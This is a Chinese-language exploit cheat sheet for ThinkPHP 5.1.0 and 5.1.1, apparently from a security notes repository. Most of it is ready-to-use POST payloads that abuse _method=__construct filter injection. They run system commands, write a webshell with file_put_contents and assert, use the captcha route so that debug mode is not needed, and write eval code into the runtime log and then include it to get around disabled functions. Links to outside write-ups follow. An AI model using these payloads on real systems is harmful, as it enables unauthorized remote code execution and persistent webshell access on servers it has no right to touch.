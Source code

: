 5.1.0
默认debug为true 命令执行
```
POST ?s=index/index
_method=__construct&filter[]=system&method=GET&s=calc
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true "topthink/think-captcha": "2.*"
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&s=calc&method=get
```
5.1.1
命令执行
```
POST ?s=index/index
_method=__construct&filter[]=system&method=GET&s=calc
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&s=calc&method=get
```



# 技巧

- https://xz.aliyun.com/t/6106#toc-5
- http://r3start.net/index.php/2019/03/15/458

- php 7.1.7 (虽然assert 函数不在disable_function中，但已经无法用call_user_func回调调用)
- 写到tmp目录，进行包含

bypass getshell
1，写日志，包含日志 getshell 。payload如下：
```
写shell进日志
_method=__construct&method=get&filter[]=call_user_func&server[]=phpinfo&get[]=<?php eval($_POST['x'])?>

通过日志包含getshell
_method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=../data/runtime/log/201901/21.log&x=phpinfo();
```
